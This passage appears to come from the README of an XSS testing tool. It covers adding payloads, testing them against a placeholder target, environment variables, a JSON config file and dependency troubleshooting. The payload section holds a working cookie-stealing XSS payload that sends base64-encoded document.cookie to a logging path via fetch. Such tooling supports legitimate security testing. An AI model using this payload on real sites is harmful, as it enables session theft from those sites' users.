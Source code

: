 ### Custom Payload Development

```bash
# Add new payload variations
python -m reconcli.xsscli add-payload --payload "<svg onload=fetch('/log?'+btoa(document.cookie))>" --category "modern" --tags "svg,fetch,stealth"

# Test effectiveness
python -m reconcli.xsscli manual-test --url https://target.com --payloads-file modern_payloads.txt

# Review payload performance
python -m reconcli.xsscli list-payloads --category modern
```

## Configuration

### Environment Variables

```bash
export RECONCLI_XSS_DB=/custom/path/xss.db
export RECONCLI_XSS_THREADS=20
export RECONCLI_XSS_TIMEOUT=30
```

### Custom Configuration Files

Create `~/.reconcli/xss_config.json`:

```json
{
  "default_threads": 20,
  "request_timeout": 30,
  "default_delay": 1,
  "max_payload_length": 1000,
  "custom_headers": {
    "User-Agent": "XSSCLI/2.0"
  }
}
```

## Troubleshooting

### Common Issues

1. **Missing Tools Error**

```bash
# Check what's missing
python -m reconcli.xsscli check-deps

# Install missing Go tools
go install github.com/hahwul/dalfox/v2@latest
```
